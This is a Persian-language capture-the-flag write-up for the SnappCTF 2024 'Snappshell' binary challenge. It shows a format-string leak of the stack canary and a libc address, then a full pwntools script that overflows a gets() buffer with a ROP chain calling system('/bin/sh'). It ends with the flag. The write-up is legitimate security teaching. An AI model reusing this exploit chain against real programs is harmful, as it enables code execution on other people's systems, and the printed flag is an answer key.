






---
tags:
  - SnappCTF
  - SnappCTF-2024
  - PWN
  - Exploit
  - Shell
  - ROP
  - Pwntools
  - Canary
  - BufferOverflow
---
# Snappshell

<center>

</center>

در این چالش با یک فایل فشرده رو به رو هستیم که شامل یک فایل باینری و یک Dockerfile هست.
در ابتدا از طریق دستور checksec با چنین تصویر ترسناکی رو به رو میشیم! :) 

<center>

</center>

بعد از اینکه فایل باینری رو با gdb و ghidra بررسی میکنیم متوجه میشیم که هیچ تابعی برای [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) کردن وجود نداره و همچنین فعال بودن [NX](https://en.wikipedia.org/wiki/NX_bit) متوجه میشیم که نیاز به شل گرفتن از برنامه هست ولی خب چطوری باید این کارو کرد؟!
برای اینکه به این هدفمون دست پیدا کنیم نیازه تا از تکنیک [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) برای دور زدن NX استفاده کنیم.
یکی از موانع سر راه همونطوری که توی عکس بالا هم پیداست فعال بودن یک مکانیسم امنیتی دیگه به اسم [Stack Canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/) هست.
برای اینکه یک قدم رو به جلو حرکت کنیم اول سعی میکنیم تا Canary رو دور بزنیم.
بعد از اینکه توابع به کار رفته توی برنامه رو دقیق تر با ghidra بررسی میکنیم چشممون به تابع printf ای میوفته (توی تابع echo برنامه، هایلاتش کردم توی تصویر زیر) که آسیب پذیری [Format String](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/) رو داره و احتمالا میتونیم از این طریق به مقدار cookie و... که توی استک موجود هستن دست پیدا کنیم.

<center>

</center>

بعد از کلی سر و کله زدن با این آسیب پذیری (و یا خودکار کردن روندش با یک کد پایتون ساده) به ی همچین ساختاری میرسیم.

`%31$p`

با فرستادن یک همچین استرینگی به سمت تابع echo برنامه ، خیلی راحت مقدار cookie رو به دست میاریم.

<center>

</center>

بعد از اینکه canary رو اوکی کردیم میریم سراغ قسمت سخت ماجرا یعنی پیدا کردن gadget های مناسب و استفاده ازشون برای ساخت زنجیره ROP امون و اینکه چطوری میشه این زنجیره رو به خورد برنامه داد. 

جواب ما توی تابع find_index هست. توی این تابع با یک gets رو به رو هستیم و به صورت دیفالت وقتی این تابع رو میبینیم باید یاد آسیب پذیری [BufferOverflow](https://ctf101.org/binary-exploitation/buffer-overflow/) بیوفتیم.

<center>

</center>


برای این قسمت که باید بدونین به چه gadget هایی نیاز دارید و دستتون بیاد حدودا که چطوری باید ROP رو اوکی کنید (و یکمم خودتون تلاش کنین) ارجاعتون میدم به لینک های زیر:  
[Bypassing Canary & PIE](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)

[ROP - Leaking LIBC address](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address)

[ROP: bypass NX, ASLR, PIE and Canary](https://ironhackers.es/en/tutoriales/pwn-rop-bypass-nx-aslr-pie-y-canary/)

از جمله مواردی که نیاز میشه اینجا بهش توجه کنین این هست برای استفاده از gadget ها احتمالا نیازتون میشه که از libc  درستی استفاده کنید. واسه اینکار باید به اون Dockerfile دقت میکردید و بعد از وصل شدن به docker سعی میکردید تا libc اصلی رو کپی کنید روی سیستم خودتون. دستور زیر میتونه کار رو دربیاره :

`. docker cp 4fd9a29bfcdc:/usr/lib/x86_64-linux-gnu/libc.so.6 `

بعد از این شما libc رو دارید و تنها کافیه تا برای پیدا کردن pop و sh و ret و system  از ابزار ROPgadget و یکمم pwntools استفاده کنید.  یک نمونه رو هم میتونید توی تصویر زیر ببینید: 
<center>

</center>

در نهایت بعد از همه این قضایا به exploit زیر میرسیم :
```python
from pwn import *

def index(s):
    p.sendlineafter(b'4- exit\n', b"3")
    p.sendline(s)
    return p.readline().rstrip()

def echo(s):
    p.sendlineafter(b'4- exit\n', b"1")
    p.sendlineafter(b'Enter your input\n', s.encode())
    return p.readline().strip()

#p = remote('91.107.177.236', 3117)
p = process('./shell_patched')
libc = ELF('./libc.so.6', checksec = False)

libc_add = echo(f'%33$p')

canary = p64(int(echo(f'%31$p'), 16))

libc_add = p64(int(libc_add, 16))

libc_add = int.from_bytes(libc_add, byteorder = 'little')

libc.address = (libc_add - 0x1e40) - 0x0000000000028000

pop = libc.address + 0x000000000002a3e5

ret = libc.address + 0x0000000000029139

final_payload = b'A' * 19 + b'SNAPP' + canary + b'\x00' * 8 +  p64(pop) + p64(next(libc.search(b'/bin/sh\x00'))) + p64(ret) + p64(libc.sym[b'system'])

p.sendlineafter(b'4- exit\n', b"3")
p.sendline(final_payload)

p.interactive()
p.close()
```


??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{Sn4Pp_sH3ll_leT_m3_!!nn}`</div>

--- 

!!! نویسنده
    [nim0x2a](https://github.com/nim0x2a)

	